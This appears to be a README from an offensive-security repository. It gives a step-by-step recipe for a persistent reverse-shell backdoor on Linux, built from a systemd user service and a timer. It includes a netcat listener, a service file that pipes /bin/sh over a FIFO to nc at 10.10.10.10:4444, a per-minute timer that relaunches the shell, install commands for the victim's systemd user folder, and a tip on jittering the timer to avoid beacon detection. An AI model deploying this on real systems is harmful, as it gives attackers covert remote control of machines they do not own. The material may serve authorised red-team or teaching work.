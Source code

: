 # Scheduled Reverse Shell

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe`.

The service file (`revshell.service`) uses:
  * The `Environment` directive to set up the remote host and port to connect to
  * The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
  * The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

## Additional Notes

* The `.timer` file ensures the backdoor gets re-run if the shell drops
* systemd only runs the next scheduled task if the previous task has ended
  * Avoids unnecessary logs
* Tasks will automatically run again if the backdoor ends after the next task was supposed to run
  * systemd will not wait until the timer gets scheduled again
  * e.g. 4.5 minutes after initial run on a per-minute timer
    ```
    [1]       [2]        [3]        [4]          [5]
    run-------skip-------skip-------skip-die-run-skip
    ```
* The `.timer` file will randomize unit execution a bit based on the `AccuracySec` and `RandomizedDelaySec` directives
  * `AccuracySec` is a measure of how accurate systemd must be when executing the associated unit.
    This is done so systemd can attempt to reduce executions that fall within the same time window.
  * `RandomizedDelaySec` randomizes the exact second at which systemd will execute the unit.
    This is done so systemd can minimize the chance many units fire at once and possibly consume too many resources.
    It's also really nice for avoiding beacon detections :)
  * The timer below will first choose a time within the `RandomizedDelaySec`, and then look for a time within `AccuracySec`
    * In reality, this unit will execute sometime between `*:56 - *:05` seconds

## Step by Step
1. Stand up listener on attacker server
```sh
$ nc -nlvp 4444
```

2. Generate a service file to create the backdoor on the victim
```ini
$ cat revshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple reverse shell
Documentation=https://github.com/infosec-intern/sneaky-systemd-shit

[Service]
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Type=simple
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a timer file to execute the backdoor at regular intervals (every minute in our case)
```ini
$ cat revshell.timer
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=revshell.service
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim
```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/revshell.service ~/.config/systemd/user/
$ ln -s `pwd`/revshell.timer ~/.config/systemd/user/
```

5. Start the scheduled task
```sh
$ systemctl --user start revshell.timer
```

6. Wait for the shell!
```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
